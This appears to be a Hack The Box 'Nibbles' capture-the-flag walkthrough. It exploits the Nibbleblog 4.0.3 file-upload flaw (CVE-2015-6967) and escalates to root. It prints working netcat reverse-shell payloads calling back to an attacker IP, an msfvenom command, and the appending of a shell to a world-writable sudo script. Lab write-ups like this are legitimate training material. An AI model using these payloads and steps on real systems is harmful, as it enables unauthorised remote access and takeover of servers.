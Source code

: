 #Nibbleblog #FileUpload

# Reconnaissance

```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.75 --type All
# Nmap
nmap -sV -sC -A 10.10.10.75 -Pn
```

```txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration
## Enumerate on 80
[Reference]

https://0xdf.gitlab.io/2018/06/30/htb-nibbles.html

![[Nibbles-01.png]]

when we check http page and source code, will find that:
```txt
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
![[Nibbles-02.png]]

sure, let's access the http://10.10.10.75/nibbleblog/ page.
![[Nibbles-03.png]]

As there’s not much obvious to do with this blog, let’s start a `gobuster` to see what pages are there. Having noticed that the links on the page were to php files, we’ll search for php and txt extensions:
```bash
gobuster dir -e -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirb/big.txt -t 20 -x php,txt
```

```txt
===============================================================
http://10.10.10.75/nibbleblog/.htaccess            (Status: 403) [Size: 306]
http://10.10.10.75/nibbleblog/.htpasswd            (Status: 403) [Size: 306]
http://10.10.10.75/nibbleblog/.htaccess.php        (Status: 403) [Size: 310]
http://10.10.10.75/nibbleblog/.htpasswd.php        (Status: 403) [Size: 310]
http://10.10.10.75/nibbleblog/.htaccess.txt        (Status: 403) [Size: 310]
http://10.10.10.75/nibbleblog/.htpasswd.txt        (Status: 403) [Size: 310]
http://10.10.10.75/nibbleblog/LICENSE.txt          (Status: 200) [Size: 35148]
http://10.10.10.75/nibbleblog/README               (Status: 200) [Size: 4628] 
http://10.10.10.75/nibbleblog/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
http://10.10.10.75/nibbleblog/admin.php            (Status: 200) [Size: 1401]                                          
http://10.10.10.75/nibbleblog/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
http://10.10.10.75/nibbleblog/feed.php             (Status: 200) [Size: 302]                                             
http://10.10.10.75/nibbleblog/index.php            (Status: 200) [Size: 2987]                                            
http://10.10.10.75/nibbleblog/install.php          (Status: 200) [Size: 78]                                              
http://10.10.10.75/nibbleblog/languages            (Status: 301) [Size: 325]
```

With gobuster, we will find a login page http://10.10.10.75/nibbleblog/admin.php

![[Nibbles-04.png]]

![[Nibbles-05.png]]

In exploring the resulting paths, `/nibbleblog/content` is interesting, and has dir lists enabled. Digging deeper, there’s a page at `/nibbleblog/content/private/user.xml` which reveals a user, admin, as well as the IPs that have tried to log in as it:
```bash
# http://10.10.10.75/nibbleblog/content/private/users.xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

![[Nibbles-06.png]]

I wasn’t able to locate a password elsewhere on the blog, and nibbleblog doesn’t have a default password. Luckily, the guess of nibbles worked, and we are in:

![[Nibbles-07.png]]

```bash
# when we check readme page of this folder, we will find the version of Nibbleblog is 4.0.3
http://10.10.10.75/nibbleblog/README
```
![[Nibbles-08.png]]
# Exploitation

## 1. Exploit by python script
```bash
# when we search this version in searchsploit, we will find there is a Arbitrary file upload Metasploit exploit on this version
searchsploit nibbleblog 4.0.3
```

![[Nibbles-09.png]]

For this CVE-2015-6967 (https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html), we will use this exploit code: https://github.com/dix0nym/CVE-2015-6967

```bash
git clone https://github.com/dix0nym/CVE-2015-6967
cd CVE-2015-6967
# create the reverse shell shell.php
# search for "Msfvenom reverse shell cheat sheat" 
# https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
# msfvenom -p php/reverse_php LHOST=10.10.14.5 LPORT=1234 -f raw > shell.php
# or use this php file
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 1234 >/tmp/f"); ?>
# run the exploit
nc -vlp 1234
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

Cool! we will get the reverse shell. We try get user flag.

```bash
cat /home/nibbler/user.txt
# flag
0f1ed7291c2cfa6b7aebf924b98b0f4e
```
![[Nibbles-17.png]]



## 2. Exploit by Manually

[This blog](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) provides a good write up of CVE-2015-6967, and how to exploit it.

When uploading image files via the "My image" plugin - which is delivered with NibbleBlog by default - , NibbleBlog 4.0.3 keeps the original extension of uploaded files. This extension or the actual file type are not checked, thus it is possible to upload PHP files and gain code execution.

1.  Obtain admin credentials - we already have this.
2.  Activate the “My image” plugin. If we click on “Plugings” on the menu on the left side of the admin page, it takes us to a list of installed plugins:

```bash
# First login the admin page, and access this url
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
# click 'My image' and 'Configure' 
# then click 'save the change', and ignore warning
# visit this page
nc -vlp 1234
# acess the php file
curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php

```

![[Nibbles-12.png]]

we will get the shell.

```bash
# get user flag
cat /home/nibbler/user.txt
```

For whatever reason, I’m finding that my session with this site isn’t lasting long. 
```bash
# upgrade the shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Cool, we will get the more better reverse shell.

![[Nibbles-16.png]]

# Privilege Escalation
Either through running `LinEnum.sh` or just by checking `sudo -l`, we’ll see the following:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

```txt
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

we will know user nibber could run root command on monitor.sh.

```bash
cd /home
cd nibbler
ls
unzip personal.zip
```

![[Nibbles-18.png]]

```bash
cd personal
cd stuff
ls -l1
```

![[Nibbles-20.png]]

But it doesn’t really matter, since the script is world-writable:
Rather than bluntly overwriting the script, we’ll append our shell to the end:

```bash
nc -vlp 8083
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8083 > /tmp/f" >> monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

![[Nibbles-21.png]]

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
id
# get root flag
cat /root/root.txt
# flag
2d2f46f77617dc7baad3e7bfe14db12a
```

![[Nibbles-22.png]]

Cool! we will get root user reverse shell!